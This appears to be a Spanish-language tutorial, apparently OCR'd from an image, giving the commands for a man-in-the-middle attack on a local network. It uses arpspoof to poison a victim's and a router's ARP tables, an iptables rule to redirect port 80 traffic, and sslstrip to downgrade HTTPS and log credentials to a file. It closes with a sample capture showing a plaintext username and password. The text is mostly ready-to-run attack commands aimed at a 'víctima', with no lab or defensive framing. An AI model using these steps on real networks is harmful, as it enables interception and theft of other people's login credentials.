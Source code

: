 #### Paso 1: Posicionarse como MITM (ARP Spoofing)

```bash
sudo arpspoof -i eth0 -t 192.168.1.5 192.168.1.1
```

Y en otra terminal:

```bash
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.5
```

(Sustituye las IP por las de víctima y router)

---

#### Paso 2: Redirigir tráfico HTTPS a tu puerto SSLStrip

```bash
# Redirige el tráfico del puerto 80 a 8080
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

---

#### Paso 3: Iniciar sslstrip

```bash
sudo sslstrip -l 8080
```

Esto inicia el proxy malicioso en el puerto 8080, que intercepta peticiones HTTP y modifica redirecciones HTTPS.

---

#### Paso 4: En la víctima

1. Abre un navegador y visita `http://example.com` o similar
2. Si la víctima trata de entrar a un sitio HTTP con redirección a HTTPS (sin HSTS), **verás las credenciales en texto claro** en la terminal de sslstrip

---

### 🔎 ¿Dónde se guardan los datos?

Puedes guardar todo con:

```bash
sudo sslstrip -l 8080 -w datos.txt
```

---

### 💻 ¿Qué aspecto tiene la captura?

```bash
[*] 192.168.1.5 -> example.com [GET] /login
[*] username=admin&password=1234
```

---